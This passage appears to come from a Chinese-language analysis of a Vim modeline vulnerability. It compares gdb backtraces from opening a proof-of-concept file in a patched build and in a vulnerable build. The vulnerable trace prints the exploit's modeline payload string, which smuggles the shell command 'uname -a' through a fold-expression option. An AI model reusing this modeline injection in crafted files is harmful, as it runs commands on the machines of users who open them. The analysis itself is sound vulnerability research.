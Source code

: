 **检查调用栈**

类似的，通过代码执行vim打开poc，ptrace调用栈，检查是否有do_shell调用无漏洞时正常打开poc文件后的调用栈：

```shell
gdb-peda$ bt
#0  0x00007fca6f40b5b3 in __select_nocancel ()
#1  0x000000000052a69c in RealWaitForChar (fd=0x0, 
#2  0x000000000052a444 in WaitForCharOrMouse 
#3  0x000000000052a393 in WaitForChar (msec=0xffffffffffffffff)
#4  0x0000000000526147 in mch_inchar (buf=0x86c66a <typebuf_init+42> 
#5  0x00000000005c381e in ui_inchar (buf=0x86c66a <typebuf_init+42> 
#6  0x00000000004ad1fe in inchar (buf=0x86c66a <typebuf_init+42> "", 
#7  0x00000000004ace26 in vgetorpeek (advance=0x1) at getchar.c:2832
#8  0x00000000004ab07e in vgetc () at getchar.c:1605
#9  0x00000000004ab526 in safe_vgetc () at getchar.c:1801
#10 0x00000000004f8512 in normal_cmd (oap=0x7ffefbcad0c0, 
#11 0x00000000005e96fb in main_loop (cmdwin=0x0, noexmode=0x0) at 
#12 0x00000000005e90e3 in main (argc=0x2, argv=0x7ffefbcad3b8) at 
...

```



存在漏洞时，打开poc文件后的调用栈，有一个明显的do_shell的调用:

```shell
gdb-peda$ bt
#0  0x00007f4ba14135b3 in __select_nocancel ()
#1  0x000000000052a69c in RealWaitForChar (fd=0x0, 
#2  0x000000000052a444 in WaitForCharOrMouse 
#3  0x000000000052a393 in WaitForChar (msec=0xffffffffffffffff)
#4  0x0000000000526147 in mch_inchar (buf=0x86c66a <typebuf_init+42> 
#5  0x00000000005c381e in ui_inchar (buf=0x86c66a <typebuf_init+42> 
#6  0x00000000004ad1fe in inchar (buf=0x86c66a <typebuf_init+42> "", 
#7  0x00000000004ace26 in vgetorpeek (advance=0x1) at getchar.c:2832
#8  0x00000000004ab07e in vgetc () at getchar.c:1605
#9  0x00000000004ab526 in safe_vgetc () at getchar.c:1801
#10 0x00000000004ce972 in wait_return (redraw=0x1) at message.c:901
#11 0x000000000045ce32 in do_shell (
    cmd=0x15c7ea0 "uname -a||\" vi:fen:fdm=expr:fde=assert_fails(\"source!\\ %\"):fdl=0:fdt=\"", flags=0x0) at ex_cmds.c:1572
#12 0x000000000045c50c in do_bang (addr_count=0x0, 
#13 0x000000000047f480 in ex_bang (eap=0x7ffe20228c50) at 
#14 0x00000000004741d3 in do_one_cmd (cmdlinep=0x7ffe20228d80, 
#15 0x0000000000470d89 in do_cmdline (cmdline=0x0, 
#16 0x00000000005002cd in nv_colon (cap=0x7ffe202293f0) at 
#17 0x00000000004f9650 in normal_cmd (oap=0x7ffe20229480, 
#18 0x00000000005e96fb in main_loop (cmdwin=0x0, noexmode=0x0) at 
#19 0x00000000005e90e3 in main (argc=0x2, argv=0x7ffe20229778) at 



```

